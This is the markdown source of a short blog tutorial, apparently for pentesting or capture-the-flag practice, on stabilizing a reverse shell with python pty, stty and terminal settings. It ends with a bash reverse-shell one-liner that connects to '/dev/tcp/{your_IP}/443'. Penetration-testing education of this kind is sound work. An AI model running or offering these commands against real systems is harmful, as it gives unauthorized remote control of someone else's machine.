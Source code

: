 ```yaml
---
layout: single
title:  "Upgrading your reverse shell"
author_profile: true
toc: true
toc_label: "Table of Contents"
toc_icon: "fas fa-book-open"
toc_sticky: true
header:
    image: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
    caption: "Photo by [**Biel Morro**](https://unsplash.com/@bielmorro?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash) on [**Unsplash**](https://unsplash.com/photos/brown-conch-shell-on-right-human-palm-_l8ZdgJ9m7w?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash)"
    teaser: https://images.unsplash.com/photo-1472152083436-a6eede6efad9?q=80&w=2669&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```


> After we have gotten our reverse shell, it will have limitations such as no auto-completions and messy file listings. Here is how we can make our shell better inside our target's system:

Upgrading and stabilizing your shell enables you to type in your commands better. There are several ways to upgrade your shell once you are in a target machine.

## First way

Assuming you are running bash, in your reverse shell:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Press on your keyboard: `Ctrl + Z`
Press on your keyboard: `Enter`

On your local host:

```
stty raw -echo
fg
```
Press on your keyboard: `Enter` (twice)

Notice that our shell does not cover our entire terminal. To fix this, we shall open another terminal tab and input the following commands:
```
echo $TERM
```
Output: `xterm-256color`
```
stty size
```
Output: `70 255`

In our reverse shell:
```
export TERM=xterm-256color
stty rows 70 columns 255
```

Our reverse shell should now utilize the terminal's full features!

## Second way
Check the version of python the target system is running in using:
`which python` or `which python3`

Next,

```
python3 -c 'import pty;pty.spawn("/bin/bash")'  //Upgrade to tty
Ctrl + Z                                        //Background the process
stty raw -echo
fg + Enter
```

Subsequently, turn your unstable shell into a stable one via:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```
\
\
Thank you for reading!